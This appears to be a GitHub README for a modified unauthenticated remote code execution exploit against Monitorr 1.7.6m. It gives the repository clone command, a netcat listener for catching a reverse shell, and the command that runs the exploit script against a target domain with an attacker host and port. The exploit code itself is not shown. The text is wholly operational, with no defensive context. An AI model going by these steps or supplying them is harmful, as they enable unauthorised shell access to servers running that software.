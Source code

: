 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Installation
``git clone https://github.com/valentinodev/monitorr_1.7.6m_remote_code_execution_modified.git``

``cd monitorr_1.7.6m_remote_code_execution_modified``

### Netcat (another terminal)
``apt install rlwrap``

``rlwrap nc -lvnp 443``

### Exploit
``python monitorr_rce.py https://domain.com LHOST PORT``
